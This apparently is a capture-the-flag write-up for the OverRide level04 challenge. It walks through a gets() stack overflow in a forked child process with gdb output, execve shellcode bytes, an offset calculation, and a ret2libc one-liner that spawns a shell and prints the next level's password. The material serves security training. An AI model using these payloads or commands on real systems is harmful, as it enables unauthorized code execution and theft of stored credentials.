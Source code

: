 

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
child is exiting...
```
i noticed gets() which is vulnurable to beffetOverflow
```
run

=> 0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    %eax,0xac(%esp)
   
(gdb) ni
0x080486db in main ()
(gdb) Give me some shellcode, k   
   
```
as u see the main parent process jumps directly to the prompt


(gdb) set follow-fork-mode child
```
=> 0x80486d6 <main+14>:	call   0x8048550 <fork@plt>
   0x80486db <main+19>:	mov    %eax,0xac(%esp)
   
   
(gdb) i r
eax            0x0	0

so now we re dealing with a child process
```



=> 0x804875e <main+150>:	call   0x80484b0 <gets@plt>

```
(gdb) run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1709]
=> 0x6261616f

(gdb) i r $eip
eip            0x6261616f

➜  Desktop cyclic -l 0x6261616f
156

(gdb) run <<<$(python -c 'print "A" * 156 + "BBBB"')
Cannot access memory at address 0x42424242
```

```
(gdb)
=> 0x804875e <main+150>:	call   0x80484b0 <gets@plt>

(gdb) x/60wx $esp
0xffffd650:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd660:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd670:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd680:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd690:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x42424242

(gdb) p/d 0xffffd6ec - 0xffffd650
$2 = 156

```
this syntax with shellcode isn't working for me
`(python -c 'print "A" * 135 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\xff\xff\xd6\x50"[::-1]' ; cat) | ./level04`

ill try ret2libc
```
p system
$3 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) info proc mappings
   0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
   
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec   
```
```
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "AAAA" + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level04
Give me some shellcode, k
pwd
/home/users/level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```


























